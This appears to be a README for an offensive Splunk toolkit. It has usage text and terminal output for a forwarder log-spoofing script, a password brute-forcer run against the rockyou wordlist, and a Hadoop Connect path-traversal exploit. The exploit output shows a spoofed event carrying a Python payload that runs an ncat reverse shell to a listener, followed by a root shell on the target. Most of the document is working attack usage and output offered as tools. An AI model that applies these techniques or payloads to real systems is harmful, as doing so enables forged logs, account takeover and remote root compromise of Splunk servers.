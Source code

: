 ## [spooforward.py]

[i] Splunk forward spoofer v0.1

USAGE: ./spooforward.py [options]:

	-r, --host <file>	Server address (indexer instance)
	-p, --port <address>	Server port (default: 9997)
	-s, --source <pid>	Spoofed source ex. udp:514
	-l, --shost <num>	Spoofed host address
	-t, --type <type>	Source type
	-i, --index <index>	Index to forward to ex. default, main
	-m, --message <message>	 Spoofed event content (limit: 255)
	-d, --debug	 Enable debugging
	-c, --check	 Scan host
	-h, --help	 This help message


Example:

```
▶ ~/DEV/splunk_tools ◀
root@postern ⌁ ./spooforward.py -c -d -r 127.0.0.1 -l spoofedaddr.net -i main -t spoofedtype -s spoofedsource  -m "some event message"

[i] Splunk forward spoofer v0.1

[i] Scanning host 127.0.0.1...

[+] Found active port: 9997

[DBG] [PLD] '\xfe\x03\x16source::spoofedsource\x16host::spoofedaddr.net\x0cspoofedtype\x022\x00\xfc\x03\xff\x06\xc4\xc0\x85\xcc\x9d\x9b\xf0\xa3\xe0\x01b\x01\x08\x97\xa1\xe5\xb6\x05\x03J.0\x04\x05_path\x0c/tmp/unknown\x04\x0f_MetaData:Index\x04main\x12some event message'

[DBG] [RCV] '\x00\x00\x00\x9a\x00\x00\x00\x01\x00\x00\x00\x12__s2s_control_msg\x00\x00\x00\x00ocap_response=success;cap_flush_key=true;idx_can_send_hb=true;idx_can_recv_token=true;v4=true;channel_limit=300\x00\x00\x00\x00\x00\x00\x00\x00\x05_raw\x00'

[DBG] [FIN] PAYLOAD SUCCESSFULY SENT
```


## [splunk_brute.sh]

```
▶ ~/DEV/splunk_tools ◀
root@postern ⌁ ./splunk_brute.sh test_acc /usr/share/wordlists/rockyou.txt 127.0.0.1 8000

[!] Bruteforcing password for test_acc on 127.0.0.1...
.......................................................
SUCCESS! U: test_acc P: 1234567890

...Terminated
```

## [hdfs_exploit.sh]

Splunk Hadoop Connect Remote Code Execution

This script exploits path traversal vulnerability in Splunk app "Hadoop Connect"
export_hdfs.py script can be abused by specially crafted event to drop its contents
into /opt/splunk/bin/scripts/ executable directory.

This exploit need to meet several requirements:
* Ability to craft logs on system (see spooforward.py)
* Have HadoopConnect app installed

Usage:

        case "${option}"

        in
                h) rhost=${OPTARG};; # Remote host
		
                p) rport=${OPTARG};; # Remote port
		
                l) lhost=${OPTARG};; # Local host
		
                s) lport=${OPTARG};; # Local port
		
		o) proto=${OPTARG};; # Protocol [http|https]
		
		m) marker=${OPTARG};;# Unique string to search for
		
  	        u) uname=${OPTARG};; # Splunk user
		
		w) passw=${OPTARG};; # Splunk password
		
 	        c) scanhost="-c";;   # Scan host for spoofing capabilities
		
		e) spoof="NO";;      # Dont try to spoof event (already there)

```
▶ ~/DEV/splunk_tools ◀
root@postern ⌁ ./hdfs_exploit.sh -c -h 127.0.0.1 -m w00tw00tw00t

[i] Splunk forward spoofer v0.1

[i] Scanning host 127.0.0.1...

[+] Found active port: 9997

[DBG] [PLD] "\xfe\x03\nsource::.\thost::..\x02.\x022\x00\xfc\x03\xff\x06\xc4\xc0\x85\xcc\x9d\x9b\xf0\xa3\xe0\x01b\x01\x08\x97\xa1\xe5\xb6\x05\x03J.0\x04\x05_path\x0c/tmp/unknown\x04\x0f_MetaData:Index\x04mainY#!/usr/bin/python\nimport os;os.system('ncat -e /bin/bash 127.0.0.1 4444');# w00tw00tw00t "

[DBG] [RCV] '\x00\x00\x00\x9a\x00\x00\x00\x01\x00\x00\x00\x12__s2s_control_msg\x00\x00\x00\x00ocap_response=success;cap_flush_key=true;idx_can_send_hb=true;idx_can_recv_token=true;v4=true;channel_limit=300\x00\x00\x00\x00\x00\x00\x00\x00\x05_raw\x00'

[DBG] [FIN] PAYLOAD SUCCESSFULY SENT

[PWN] Waiting for shell...
Listening on [0.0.0.0] (family 0, port 4444)
nc -lvp${lport}
Connection from localhost 44056 received!
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/opt/splunk/etc/apps/search/bin
uname -a
Linux postern 4.8.0-kali2-amd64 #1 SMP Debian 4.8.15-1kali1 (2016-12-23) x86_64 GNU/Linux
```



